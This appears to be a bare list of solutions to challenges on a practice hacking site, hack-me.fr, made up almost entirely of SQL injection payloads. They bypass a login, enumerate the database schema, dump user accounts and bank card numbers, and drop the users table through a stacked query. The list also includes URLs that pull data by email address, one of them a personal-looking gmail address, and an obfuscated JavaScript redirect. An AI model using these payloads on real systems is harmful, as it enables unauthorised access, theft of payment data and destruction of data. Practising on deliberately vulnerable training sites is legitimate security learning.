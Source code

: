 https://hack-me.fr/auth.php?login=

// 1

sophie' OR true --']
---
// 2

%' union SELECT database(), t.table_name, concat(c.column_name,':',c.data_type) FROM information_schema.tables AS t NATURAL JOIN information_schema.columns AS c WHERE table_schema = database()  -- ' ORDER BY 1,3    --' 
---
// 3

%' union SELECT concat(id, ' - ', login), email, is_admin_or_not from c1_hackme.users   -- ' ORDER BY login    --'

adminKikoolol' OR true --']
---
// 4

%'  
union SELECT &quot;USER&quot;, &quot;TOTAL&quot;, &quot;CARD_NUMBER&quot;
union SELECT user_id, total, bank_card_number from c1_hackme.transactions   -- ' ORDER BY total desc    --'

%'   
union SELECT "USER", "TOTAL", "CARD_NUMBER" 
union SELECT user_id, total t, bank_card_number from c1_hackme.transactions   -- ' ORDER BY t DESC    --'

%'   
union SELECT "USER", "TOTAL", "CARD_NUMBER" 
union SELECT user_id, CAST(total as float) t, bank_card_number from c1_hackme.transactions -- ' ORDER BY t desc    --'
---
// 5

https://hack-me.fr/backup-rgpd.php?email=kikoo@mylittleponey.fr
https://hack-me.fr/backup-rgpd.php?email=tristandu06@gmail.com

var _0x3b79=['./aj','php'];(function(_0x534e32,_0x3b79e9){var _0x18d20d=function(_0x4f7ff6){while(--_0x4f7ff6){_0x534e32['push'](_0x534e32['shift']());}};_0x18d20d(++_0x3b79e9);}(_0x3b79,0xdd));var _0x18d2=function(_0x534e32,_0x3b79e9){_0x534e32=_0x534e32-0x0;var _0x18d20d=_0x3b79[_0x534e32];return _0x18d20d;};function next(){var _0x29bdc6=_0x18d2;window['location']=_0x29bdc6('0x1')+'ax.'+_0x29bdc6('0x0');}

next();
---

// 7

@' or true; SET FOREIGN_KEY_CHECKS=0; DROP TABLE c1_hackme.users --']
